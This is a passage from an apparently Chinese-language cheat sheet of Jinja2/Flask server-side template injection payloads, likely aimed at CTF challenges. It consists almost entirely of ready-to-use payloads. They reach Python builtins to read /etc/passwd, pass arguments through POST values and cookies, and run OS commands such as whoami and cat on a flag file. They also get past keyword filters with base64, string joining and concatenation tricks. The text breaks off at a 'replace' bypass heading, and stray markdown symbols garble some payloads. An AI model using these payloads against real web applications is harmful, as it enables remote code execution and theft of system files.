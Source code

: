 - POST方式，利用request.values传递参数

```javascript
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.values.arg1](request.values.arg2).read()}}
post:arg1=open&arg2=/etc/passwd
```

- Cookie方式，利用request.cookies传递参数

```javascript
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.cookies.arg1](request.cookies.arg2).read()}}
Cookie:arg1=open;arg2=/etc/passwd
```

**一些关键字被过滤**

**base64编码绕过**
用于`__getattribute__`使用实例访问属性时。

例如，过滤掉 `__class__ `关键词

```
{{[]**.**__getattribute__('X19jbGFzc19f'**.**decode('base64'))**.**__base__**.**__subclasses__()[40]("/etc/passwd")**.**read()}}
```

**字符串拼接绕过**

join拼接：`{{[]**.**__getattribute__(['__c','lass__']**|**join)**.**__base__**.**__subclasses__()[40]}} `

```javascript
{{()|attr(["_"*2,"cla","ss","_"*2]|join)}}
{{[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()}}
{{()|attr(request.args.f|format(request.args.a))}}&f=__c%sass__&a=l
```

字符串连接：`{{[]**.**__getattribute__('__c'**+**'lass__')**.**__base__**.**__subclasses__()[40]("/etc/passwd")**.**read()}} `

```
{{()['__cla''ss__'].__bases__[0]}}
payload：
{{()['__cla''ss__'].__bases__[0].__subclasses__()[40].__init__.__globals__['__builtins__']['ev''al']("__im""port__('o''s').po""pen('whoami').read()")}}
{%print lipsum.__globals__['__bui'+'ltins__']['__im'+'port__']('o'+'s')['po'+'pen']('whoami').read()%}
{%print lipsum['__glo'+'bals__']['__buil'+'tins__']['ev''al']("__im""port__('o''s').po""pen('whoami').read()")%}
{%set a='__bui'+'ltins__'%}
{%set b='__im'+'port__'%}
{%set c='o'+'s'%}
{%set d='po'+'pen'%}
{%print(lipsum['__globals__'][a][b](c)[d]('cat /flag_1s_Hera')['read']())%}
```

- replace绕过：
